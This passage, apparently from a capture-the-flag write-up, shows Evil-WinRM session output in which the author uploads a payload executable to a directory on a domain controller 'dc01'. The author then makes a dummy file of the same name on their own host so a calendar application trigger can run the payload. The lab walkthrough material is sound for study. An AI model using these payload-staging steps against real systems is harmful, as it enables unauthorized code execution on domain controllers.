 We then make a directory C:\memes on dc01, and upload our payload to it:

```
Info: Establishing connection to remote endpoint
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> mkdir C:\memes


    Directory: C:\


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
d-----        5/14/2025  12:08 PM                memes


*Evil-WinRM* PS C:\Users\winrm_svc\Documents> upload get_me.exe
                                        
Info: Uploading /home/kali/infiltrator-writeup/get_me.exe to C:\Users\winrm_svc\Documents\get_me.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
*Evil-WinRM* PS C:\Users\winrm_svc\Documents> mv get_me.exe C:\memes
```

On our own windows host, we then create that relative path and object, so that we can setup the trigger (the calendar will only let you make an application trigger for something that exists locally to it):

```
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

Install the latest PowerShell for new features and improvements! https://aka.ms/PSWindows

PS C:\Users\kali> mkdir C:\memes


    Directory: C:\


Mode                 LastWriteTime         Length Name
----                 -------------         ------ ----
d-----         5/14/2025  12:09 PM                memes


PS C:\Users\kali> echo 'doesnt matter' > C:\memes\get_me.exe
PS C:\Users\kali>
```

Since we just care about the trigger, our local side does not actually need to be anything meaningful (or even valid). In fact, it's more practical to NOT place the same payload here, otherwise you will be competing with the real one on dc01.
